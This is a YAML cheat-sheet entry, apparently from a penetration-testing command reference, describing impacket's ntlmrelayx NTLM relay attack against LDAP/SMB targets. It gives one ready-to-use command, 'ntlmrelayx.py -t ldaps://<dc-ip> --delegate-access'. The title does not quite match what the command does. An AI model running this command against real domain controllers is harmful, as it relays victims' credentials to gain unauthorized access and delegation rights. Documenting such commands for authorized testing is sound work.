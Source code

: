```yaml
---
title: |
  Add a user account to the Member of "Users"
description: |
  This module performs the SMB Relay attacks originally discovered by cDc extended to many target protocols (SMB, MSSQL, LDAP, etc).
  It receives a list of targets and for every connection received it will choose the next target and try to relay the credentials. Also, if specified, it will first to try authenticate against the client connecting to us. Add a user account to the Member of "Users" (use ldap:// for insecure ldap) (SMB signing must be disabled).

  Command Reference:

  	Target: ldaps://<dc-ip>
command: |
  ntlmrelayx.py -t ldaps://<dc-ip> --delegate-access
items:
  - No_Creds
services:
  - SMB
  - LDAP
OS:
  - Linux
attack_types:
  - Enumeration
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
---
```

